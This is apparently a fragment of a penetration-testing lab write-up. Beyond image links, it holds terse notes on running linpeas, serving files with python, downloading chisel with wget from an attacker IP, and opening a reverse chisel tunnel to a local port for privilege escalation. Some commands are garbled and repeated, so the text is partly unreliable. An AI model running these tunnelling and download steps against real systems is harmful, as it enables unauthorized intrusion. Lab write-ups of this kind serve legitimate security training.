





We have a terminal.

Running linpeas:

We can forward this port with chisel

Set up a python server:
```
python3 -m uploadserver 80
```
```
wget http://192.168.45.182:/chisel
```
```
chmod +x chisechmod +x chisel
```
```
./chisel clien./chisel client 192.168.45.182:8001 R:65423:127.0.0.1:65423
```
Nah leads nowhere:


For privesc:

We can investigate it:

It's running this in port 65423